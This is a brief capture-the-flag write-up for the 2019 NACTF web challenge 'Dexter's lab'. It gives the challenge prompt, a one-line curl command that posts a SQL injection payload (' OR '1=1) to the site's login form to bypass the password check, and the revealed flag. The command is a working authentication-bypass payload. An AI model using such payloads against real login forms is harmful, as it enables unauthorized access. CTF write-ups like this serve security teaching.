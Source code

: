 #### Challenge:

Dee Dee,

Please check in on your brother's lab at dexterslab.web.2019.nactf.com
We know his username is Dexter, but we don't know his password! Maybe you can use a SQL injection?

Mom + Dad

---

#### Solution:

```bash
curl 'http://dexterslab.web.2019.nactf.com/login.php' --data 'username=&password=%27+OR+%271%3D1' 2>/dev/null | grep nactf
```

---

<details><summary>FLAG:</summary>

```
nactf{1nj3c7ion5_ar3_saf3_in_th3_l4b}
```

</details>

